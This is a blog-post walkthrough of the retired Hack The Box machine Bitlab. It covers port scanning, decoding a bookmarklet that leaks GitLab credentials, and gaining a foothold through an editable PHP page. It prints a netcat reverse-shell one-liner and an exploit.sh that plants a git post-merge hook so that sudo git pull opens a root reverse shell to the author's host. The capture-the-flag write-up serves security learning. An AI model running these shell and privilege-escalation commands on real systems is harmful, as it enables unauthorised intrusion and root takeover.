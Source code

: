 ```yaml
---
layout: post
title: "Bitlab: Hack The Box Walkthrough"
date: 2020-01-12 08:36:49 +0000
last_modified_at: 2020-01-12 08:36:49 +0000
category: Walkthrough
tags: ["Hack The Box", Bitlab, retired, Linux]
comments: true
image:
  feature: bitlab-htb-walkthrough.jpg
  credit: Republica / Pixabay
  creditlink: https://pixabay.com/photos/flasks-erlenmeyer-chemistry-606612/
---
```


This post documents the complete walkthrough of Bitlab, a retired vulnerable [VM][1] created by [Frey][2] and [thek][3], and hosted at [Hack The Box][4]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Bitlab is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.114 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-09-10 06:27:53 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.114                                    
Discovered open port 80/tcp on 10.10.10.114
```

Nothing special stands out. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80 -A --reason -oN nmap.txt 10.10.10.114
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    syn-ack ttl 62 nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

This is how the site looks like.

<a class="image-popup">
![daf62219.png](/assets/images/posts/bitlab-htb-walkthrough/daf62219.png)
</a>

### `robots.txt`

Long story short, I found an interesting file `bookmarks.html` at `/help`.

<a class="image-popup">
![0eeae026.png](/assets/images/posts/bitlab-htb-walkthrough/0eeae026.png)
</a>

There's a JavaScript hyperlink at GitLab Login.

<a class="image-popup">
![e5885788.png](/assets/images/posts/bitlab-htb-walkthrough/e5885788.png)
</a>

This is what it looks like.

```
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It's easy to decode the above in Scratchpad.

<a class="image-popup">
![100e7322.png](/assets/images/posts/bitlab-htb-walkthrough/100e7322.png)
</a>

As you can see, there's a credential (`clave:11des0081x`). I suppose that's for the GitLab login.

### GitLab

Let's give it a shot.

<a class="image-popup">
![001b2463.png](/assets/images/posts/bitlab-htb-walkthrough/001b2463.png)
</a>

Sweet.

### Something's up with the profile

Long story short, the creators have kindly left a PHP profile page under Settings for the purpose of getting that foothold.

<a class="image-popup">
![e92d2e0c.png](/assets/images/posts/bitlab-htb-walkthrough/e92d2e0c.png)
</a>

It coincides with the Profile repository under the Administrator's projects. Simply edit `index.php` and merge it to the master branch.

<a class="image-popup">
![51c81730.png](/assets/images/posts/bitlab-htb-walkthrough/51c81730.png)
</a>

Let's check it out.

<a class="image-popup">
![ea1271ea.png](/assets/images/posts/bitlab-htb-walkthrough/ea1271ea.png)
</a>

## Low-Privilege Shell

Time to connect back our reverse shell. For that, I'm using this one-liner.

```
rm -rf /var/tmp/p; mknod /var/tmp/p p; bash </var/tmp/p | nc 10.10.13.79 1234 >/var/tmp/p
```

On my `nc` listening at `1234/tcp`, a reverse shell appears...

<a class="image-popup">
![bec849d7.png](/assets/images/posts/bitlab-htb-walkthrough/bec849d7.png)
</a>

## Privilege Escalation

During enumeration of `www-data`'s account, I notice that `www-data` is able to `sudo` to `root` without password for `git pull`.

<a class="image-popup">
![a552c8b9.png](/assets/images/posts/bitlab-htb-walkthrough/a552c8b9.png)
</a>

With that in mind, I wrote the following script to escalate my privileges using `git` hooks, particularly [`post-merge`](https://www.git-scm.com/docs/githooks#_post_merge).

The idea is simple. Initialize one Git repository, then `git clone` it to another. Update the first one, then perform a `git pull` on the second, triggering `post-merge` with `root` privileges.

<a class="image-popup">
![bf29dabd.png](/assets/images/posts/bitlab-htb-walkthrough/bf29dabd.png)
</a>

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

one=$(mktemp -d -p /dev/shm)
two=$(mktemp -d -p /dev/shm)

cd $one
git init .
echo 'hello' > readme.md
git add .
git commit -m "add readme"

cd $two
git clone file://$one .

cd $one
echo 'hello world' > readme.md
git add .
git commit -m "update readme"

cd $two
echo '#!/bin/bash' > .git/hooks/post-merge
echo >> .git/hooks/post-merge
echo 'rm -rf /var/tmp/p; mknod /var/tmp/p p; bash </var/tmp/p | nc 10.10.13.79 4321 >/var/tmp/p' >> .git/hooks/post-merge
chmod +x .git/hooks/post-merge

# bombs away
sudo git pull
```

On my `nc` listening at `4321/tcp`, a `root` shell appears...

<a class="image-popup">
![6c649398.png](/assets/images/posts/bitlab-htb-walkthrough/6c649398.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/207
[2]: https://www.hackthebox.eu/home/users/profile/33283
[3]: https://www.hackthebox.eu/home/users/profile/4615
[4]: https://www.hackthebox.eu/
